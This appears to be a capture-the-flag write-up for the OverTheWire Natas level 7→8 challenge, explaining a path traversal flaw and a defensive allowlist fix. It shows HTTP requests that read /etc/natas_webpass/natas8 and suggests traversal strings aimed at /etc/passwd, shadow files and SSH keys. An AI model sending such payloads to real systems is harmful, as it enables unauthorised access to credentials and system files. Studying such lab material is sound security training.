

# Natas Level 7 → 8

**Vulnerability:** Directory Traversal (Path Traversal)
**Difficulty:** Easy
**Tools Used:** Browser, URL Manipulation
**OWASP Category:** A01 – Broken Access Control

---

## What the level gives you

The page contains two visible links:

```text
Home
About
```

The URLs reveal a parameter named `page`.

```text
index.php?page=home
index.php?page=about
```

The objective is to obtain the password for the next level.

---

## Initial observations

The application's navigation is controlled through a URL parameter.

```text
?page=home
?page=about
```

This strongly suggests that the server loads content dynamically based on the value supplied to the `page` parameter.

Reviewing the page source reveals an additional hint:

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

This immediately provides two important pieces of information:

1. The location of the target password file.
2. A likely attack path involving file inclusion.

The challenge now becomes convincing the application to load that file instead of the intended page content.

---

## Source code reasoning

Although the PHP source is not directly provided, the URL behavior strongly suggests logic similar to:

```php
include($_GET['page']);
```

or

```php
readfile($_GET['page']);
```

If user input is used directly when loading files, an attacker can replace the expected page name with an arbitrary filesystem path.

This creates a Directory Traversal vulnerability.

---

## Approach

The application normally loads pages such as:

```text
?page=home
```

and

```text
?page=about
```

Instead of requesting one of those pages, I attempted to load the password file directly using the path disclosed in the source code hint.

Rather than selecting a legitimate page, I supplied the target file path as the parameter value.

The application accepted the path and displayed the contents of the file, revealing the password for the next level.

The vulnerability exists because the application trusts user-controlled input when determining which file to load.

---

## Exploitation

### Normal request

```http
GET /index.php?page=home HTTP/1.1
Host: natas7.natas.labs.overthewire.org
```

### Review source code hint

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

### Replace page parameter

```http
GET /index.php?page=/etc/natas_webpass/natas8 HTTP/1.1
Host: natas7.natas.labs.overthewire.org
```

Alternative URL:

```text
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

### Result

The application loads the file and displays the password.

```text
<password displayed here>
```

---

## Screenshot

### Source code hint disclosure



### Path traversal exploitation


---

## Real-world relevance

Directory Traversal vulnerabilities occur when applications use user-supplied input to access files without proper validation.

Common targets include:

```text
/etc/passwd
/etc/shadow
web.config
database backups
application logs
SSH keys
API credentials
```

Many real-world breaches have started with attackers obtaining sensitive files through traversal flaws before escalating further into the environment.

Path Traversal is frequently discovered during web application penetration tests and remains a common finding in legacy applications.

---

## Defender's perspective

Applications should never directly trust user-controlled file paths.

Instead of accepting arbitrary paths, developers should use a strict allowlist:

```php
$pages = [
    "home" => "home.php",
    "about" => "about.php"
];
```

Only predefined values should be permitted.

Additional protections include:

- Input validation
- Canonical path checks
- Restricting filesystem permissions
- Disabling direct access to sensitive files
- Running applications with least privilege

These controls prevent attackers from escaping the intended directory structure.

---

## What I'd do differently

If the password file location had not been disclosed, I would have attempted common traversal targets such as:

```text
/etc/passwd
../../../../etc/passwd
../../../etc/passwd
```

to confirm file access before expanding enumeration across the filesystem.